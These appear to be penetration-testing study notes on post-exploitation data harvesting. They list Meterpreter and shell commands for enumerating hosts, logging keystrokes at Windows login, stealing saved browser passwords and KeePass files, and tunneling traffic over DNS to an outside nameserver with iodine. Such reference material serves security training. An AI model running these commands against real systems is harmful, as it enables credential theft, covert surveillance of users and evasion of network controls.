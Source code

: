 * * *

* * *

## Pillaging

Data harvesting (Pillaging)

Post exploit commands: [Windows](https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US), [Linux/Unix/BSD](https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US), [OS X](https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US), [Metasploit](https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1), [Post exploitation commands](https://github.com/mubix/post-exploitation-wiki), [commands1](http://tim3warri0r.blogspot.com/), [Linux commands](https://web.archive.org/web/20150317144317/https:/n0where.net/linux-post-exploitation).

- `sysinfo` or `systeminfo` in shell
- `getuid`
- Also in meterpreter `run post/windows/gather/[module_name]`  
    `run post/windows/gather/enum_services` for gathering services in running in target.  
    `wmic service get Caption, StartName, State, pathname` also get similar the above command that can be runned in command shell.  
    `net use`  
    `service --status-all`  
    `ps`  
    `net view /domain` or we can run script `enum_domains`  
    `net group "Domain Controller" /domain`  
    `net user`  
    `run post/windows/gather/enum_ad_users`  
    `net user /domain`  
    `net localgroup [localgroup_name]`  
    `net share` or `enum_shares`  
    `netstat -ano`

`cat /etc/passwd` in Linux.

`scraper` and `winenum` are automated commands from Metasploit.

- `screenshot`
- `keyscan_start`, `keylogrecorder` \> migrate process to winlogon.exe process for logging at windows login time and explorer.exe for user level.  
    `keyscan_dump` and `keyscan_stop`  
    `run keylogrecorder -h` for more options. `run keylogrecorder -c 0` it will automatically migrate to correct process and writes result to a local group.
- `pwd` `getpwd`
- `search -d C:\\Users\\els\\ -f *.kdbx`
- [http://www.nirsoft.net/](http://www.nirsoft.net/) has many different tools for windows.
- `run post/windows/gather/credentials/` has many useful scripts.
- `enum_chrome` can be used to get saved passwords.
- Other gathering scripts are available in `post/multi/gather/`  
    `enum_application` can be used to get running application.
- [web\_browser\_password](http://www.nirsoft.net/utils/web_browser_password.html) is useful external tool.
- [DNS Tunneling](http://beta.ivc.no/wiki/index.php/DNS_Tunneling)  
    [Download iodine here](https://code.kryo.se/iodine/).  
    [How DNS tunneling works?](https://beta.ivc.no/wiki/index.php/DNS_Tunneling)  
    Prerequistes are:
    - Control over a domain name that you own and its DNS configuration.
    - An IP address to act as the autoritative Name server for your domain name for which you have SSH access to as well.
    - Server: `iodined -u nobodu -P 'tr98xgh!h7d' -f 10.0.0.1 ns1.cyberallthethings.com`
    - Clinet: `iodine -P 'tr98xgh!h7d' ns1.cyberallthethings.com -T CNAME -r -f`  
        Check accessing internet if you can. We should not be able to connect.  
        `ssh user@10.0.0.1 -D10.0.0.2:1234 -N -C` where 10.0.0.2 is the tunnel ip in our interface.  
        Change proxy in browser we should be able to access google.
